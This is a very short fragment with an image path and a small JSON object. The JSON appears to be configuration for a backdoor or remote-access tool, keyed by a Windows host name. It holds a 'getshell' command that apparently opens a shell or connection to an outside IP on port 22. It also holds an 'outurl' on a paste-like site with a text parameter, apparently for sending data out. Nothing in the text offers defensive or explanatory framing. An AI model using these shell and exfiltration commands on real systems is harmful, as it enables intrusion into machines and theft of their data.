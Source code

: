 
{"WIN-6SGUALVANS4":{"getshell":"?rawdoor r t 102.11.222.21 22~open"},"all":{"outurl":"http://kl1p.com/nxZg?save=true&id=160399&type=code&name=nxZg&nid=&param=text%2Fplain&client=web&text="}}
